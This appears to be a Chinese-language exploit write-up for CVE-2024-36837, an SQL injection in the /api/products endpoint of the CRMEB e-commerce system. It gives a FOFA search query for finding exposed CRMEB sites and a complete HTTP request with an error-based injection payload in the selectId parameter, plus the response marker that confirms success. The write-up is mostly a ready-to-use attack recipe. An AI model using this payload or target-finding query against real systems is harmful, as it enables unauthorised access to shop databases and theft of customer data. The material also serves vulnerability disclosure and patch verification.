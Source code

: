 # CRMEB 电商系统 /api/products SQL注入漏洞(CVE-2024-36837)

### 1.漏洞描述

CRMEB开源商城系统是一款全开源可商用的系统，前后端分离开发，全部100%开源，在小程序、公众号、H5、APP、PC端皆可使用。

该系统/api/products接口处存在SQL注入漏洞，未授权攻击者可以利用漏洞获取敏感数据。

### 2.fofa语法

```xml
body="/wap/first/zsff/iconfont/iconfont.css" || body="CRMEB"
```

### 3.漏洞复现

```xml
GET /api/products?limit=20&priceOrder&salesOrder&selectId=GTID_SUBSET(CONCAT(0x7e,(SELECT+(ELT(3550=3550,md5(1436528)))),0x7e),3550) HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/11.1.2 Safari/605.1.15
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

响应包中含有“81a9eb3487199f3a2da3e3f6591ffd62”

![image-20240620143236638](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240620143236638.png)